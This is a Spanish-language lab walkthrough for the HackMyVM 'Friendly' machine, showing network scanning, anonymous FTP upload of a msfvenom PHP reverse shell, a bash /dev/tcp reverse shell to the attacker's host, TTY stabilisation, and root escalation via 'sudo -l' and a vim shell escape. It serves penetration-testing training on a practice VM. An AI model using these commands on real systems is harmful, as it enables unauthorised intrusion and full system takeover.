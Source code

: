 # Escalada de Privilegios en Linux – Sudo -l

Maquinas que vamos a utilizar **Kali Linux y Friendly** [https://hackmyvm.eu/machines/machine.php?vm=Friendly](https://hackmyvm.eu/machines/machine.php?vm=Friendly)

Una vez hayamos obtenido acceso remoto al servidor, es necesario proceder con la escalada de privilegios, para poder convertirnos en el usuario root del sistema y así contar con todo tipo de permisos sobre el mismo.

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image.png)

```bash
ping -c 1 10.0.3.21
```

![image.png](./imagenes/image%201.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.0.3.21 
```

![image.png](./imagenes/image%202.png)

Vemos que esta habilitado el login como Anonymous en el FTP por el puerto 21.

- Accedemos por el FTP
    
    ```bash
    ftp 10.0.3.21 
    ```
    
    ![image.png](./imagenes/image%203.png)
    
    Usuario anonymous  contraseña la dejamos en blanco.
    
    Salimos del FTP
    
    `exit`
    

- Creamos un archivo malicioso con msfvenom en el escritorio.
    
    ```bash
    msfvenom -p php/reverse_php LHOST=10.0.3.4 LPORT=443 -f raw > pwned.php
    ```
    
    ![image.png](./imagenes/image%204.png)
    

- Volvemos a entrar el el FTP como la vez anterior
    
    ```bash
    ftp 10.0.3.21 
    ```
    
    ![image.png](./imagenes/image%205.png)
    
    - Subimos el archivo **pwned.php.**
        
        `put pwned.php`
        
        ![image.png](./imagenes/image%206.png)
        
        `exit`
        
    
- Nos ponemos a la escucha con netcat por el puerto 443 que era el de muestro archivo malicioso..
    
    ```bash
    nc -nlvp 443 
    ```
    
    ![image.png](./imagenes/image%207.png)
    

- Como ya hemos aprendido una conexión  creada por msfvemon es muy inestable así que vamos a estabilizarla. Nos vamos a la web [https://www.revshells.com/](./imagenes/https://www.revshells.com/) y copiamos el código generado.
    
    ![image.png](./imagenes/image%208.png)
    

- En otra terminal nos ponemos a la escucha con netcat por el puerto 444 que es el que hemos puesto en el código que acabamos de generar.
    
    ```bash
    nc -nlvp 444 
    ```
    
    ![image.png](./imagenes/image%209.png)
    
- Nos vamos al navegador web y ponemos la URL http://10.0.3.21/pwned.php
    
    ![image.png](./imagenes/image%2010.png)
    
    ![image.png](./imagenes/image%2011.png)
    

- Escribimos lo siguiente
    
    `bash -c "sh -i >& /dev/tcp/10.0.3.4/444 0>&1"`
    
    ![image.png](./imagenes/image%2012.png)
    
    ![image.png](./imagenes/image%2013.png)
    

Hasta aquí ya lo habíamos visto.

---

- **Tratamiento de la TTY**
    
    `script /dev/null -c bash`
    
    `CTRL+Z`
    
    ![image.png](./imagenes/image%2014.png)
    

`stty raw -echo; fg`

`reset xterm`

![image.png](./imagenes/image%2015.png)

`export TERM=xterm`

`export SHELL=bash`

![image.png](./imagenes/image%2016.png)

---

- Vamos a ver **escaladas de privilegios básicas** vamos a utilizar **sodo -l** , este comando a veces funciona y a veces no pero si funciona anos puede dar información útil.
    
    `sudo -l`
    
    ![image.png](./imagenes/image%2017.png)
    
    ![image.png](./imagenes/image%2018.png)
    
    <aside>
    💡
    
    Este mensaje indica que el usuario **www-data  (en este caso soy yo, podemos comprobarlo haciendo un whoami)** puede **ejecutar el comando vim** en el sistema llamado friendly **sin necesidad de contraseña** (NOPASSWD). Además, **no hay restricciones** sobre qué comandos o privilegios puede usar (ALL : ALL). **En resumen, este usuario tiene acceso sin restricciones a ejecutar vim.**
    
    </aside>
    
    Nos puede aparecer vim como otras herramientas. Como es lógico es imposible saber de memoria como escalar en cada herramienta. por eso vamos a utilizar la web [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/).
    
    ![image.png](./imagenes/image%2019.png)
    
    En el buscador de la web ponemos la herramienta que nos a parecido y con la cual queremos escalar privilegios.
    
    ![image.png](./imagenes/image%2020.png)
    
    ![image.png](./imagenes/image%2021.png)
    

- Nos debemos  preguntar ¿Cómo hemos enumerado que podemos utilizar vim?
    
    ![image.png](./imagenes/image%2022.png)
    
    Lo hemos hecho con el comando **SUDO**
    

- Nos movemos hasta encontrar **Sudo** en la web **dentro de Vim**
    
    ![image.png](./imagenes/image%2023.png)
    
    Vemos que tenemos varios opciones. Probamos la primera.
    
    `sudo /usr/bin/vim -c ':!/bin/sh'`
    
    ![image.png](./imagenes/image%2024.png)
    
    Si funciona nos convertimos en Root
    
    ![image.png](./imagenes/image%2025.png)
